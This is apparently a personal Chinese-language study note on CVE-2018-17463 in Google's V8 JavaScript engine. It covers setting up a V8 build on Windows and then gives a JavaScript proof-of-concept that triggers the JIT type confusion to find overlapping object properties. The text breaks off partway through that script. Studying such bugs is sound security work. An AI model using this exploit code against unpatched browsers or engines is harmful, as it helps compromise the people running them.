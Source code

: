 ```yaml
---
title: "CVE 2018 17463"
date: 2023-08-03T14:22:08+08:00
draft: false
---
```


## V8环境搭建（Windows）
按照这个在Windows下安装V8
https://gist.github.com/jhalon/5cbaab99dccadbf8e783921358020159
遇到了一些问题：
1. 首先是CMD设置代理，用set xxxx
2. 其次需要安装Python2.7
3. 再次需要VS2017，~~缺少了一个DIA SDK的东西，我直接从VS2022处复制过来，~~原文方法更简单。不知道为什么没有看见，原文直接在VS2022处运行安装程序，有一个VS2017构建程序安装选项

缺少Windows Kits 10 10134版本，去https://developer.microsoft.com/zh-cn/windows/downloads/sdk-archive/下载
如报win32file的错，将build/toolchain/win/tool_wrapper.py文件按照https://chromium-review.googlesource.com/c/chromium/src/+/1962898/1/build/toolchain/win/tool_wrapper.py#26替换

# 重叠属性
搜索脚本
```Javascript
// Create object with one line and 32 out-of-line properties
function makeObj() {
  let obj = {inline: 1234};
  for (let i = 1; i < 32; i++) {
      Object.defineProperty(obj, 'p' + i, {
          writable: true,
          value: -i
      });
  }
  return obj;
}
// Find a pair of properties where p1 is stored at the same offset
// in the FixedArray as p2 is in the NameDictionary
function findOverlappingProperties() {
  // Create an array of all 32 property names such as p1..p32
  let pNames = [];
  for (let i = 0; i < 32; i++) {
      pNames[i] = 'p' + i;
  }
  // Create eval of our vuln function that will generate code during runtime
  eval(`
  function vuln(obj) {
    // Access Property inline of obj, forcing a CheckMap operation
    obj.inline;
    // Force a Map Transition via our side-effect
    this.Object.create(obj);
    // Trigger our type-confusion by accessing out-of-bound properties
    ${pNames.map((p) => `let ${p} = obj.${p};`).join('\n')}
    return [${pNames.join(', ')}];
  }
`)
  // JIT code to trigger vuln
  for (let i = 0; i < 10000; i++) {
      let res = vuln(makeObj());
      // Print FixedArray when i=1 and Dictionary when i=9999
      if (i == 1 || i == 9999) {
          print(res);
      }
```